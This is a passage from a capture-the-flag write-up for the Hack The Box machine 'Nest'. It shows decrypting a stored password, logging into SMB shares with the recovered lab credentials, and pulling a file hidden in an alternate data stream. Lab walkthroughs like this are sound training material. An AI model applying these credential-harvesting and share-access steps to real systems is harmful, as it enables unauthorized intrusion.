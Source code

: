 and **\IT\Configs\NotepadPlusPlus\config.xml** with a list of files
```
<File filename="C:\windows\System32\drivers\etc\hosts" />
<File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
<File filename="C:\Users\C.Smith\Desktop\todo.txt" />
```

Even if we don't have listing permission in IT we can access its content, including a VB project to decrypt the password

We can either use an online VB.NET [compiler](https://dotnetfiddle.net/) or open the downloaded project in VS and execute the bin to obtain the decrypted password **xRxRxPANCAK3SxRxRx**

By connecting SMB with **c.smith:xRxRxPANCAK3SxRxRx** we get the user flag
```
$ smbclient \\\\10.10.10.178\\Users -U C.Smith

smb: \C.Smith\> ls
  .                                   D        0  Sun Jan 26 08:21:44 2020
  ..                                  D        0  Sun Jan 26 08:21:44 2020
  HQK Reporting                       D        0  Fri Aug  9 01:06:17 2019
  user.txt                            A       32  Fri Aug  9 01:05:24 2019

		10485247 blocks of size 4096. 6543979 blocks available
```

### Alternate Data Stream

By listing HQK Reporting directory we find out that **Debug Mode Password.txt** is an [ADS](https://github.com/lorenzoinvidia/HackTheBox-CheatSheets/wiki/Windows#alternate-data-stream) file
```
smb: \C.Smith\> cd "HQK Reporting"
smb: \C.Smith\HQK Reporting\> ls
  .                                   D        0  Fri Aug  9 01:06:17 2019
  ..                                  D        0  Fri Aug  9 01:06:17 2019
  AD Integration Module               D        0  Fri Aug  9 14:18:42 2019
  Debug Mode Password.txt             A        0  Fri Aug  9 01:08:17 2019
  HQK_Config_Backup.xml               A      249  Fri Aug  9 01:09:05 2019

		10485247 blocks of size 4096. 6543963 blocks available
```

We can switch Windows in order to get the embedded hidden file

```
C:\Users\student>net use \\10.10.10.178\Users "xRxRxPANCAK3SxRxRx" /USER:"C.Smith"
The command completed successfully.

Run
\\10.10.10.178\Users

C:\Users\student>copy "\\10.10.10.178\Users\C.Smith\HQK Reporting\Debug Mode Password.txt" Desktop
```

<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Nest/src/1.png" alt="1" />
</p>
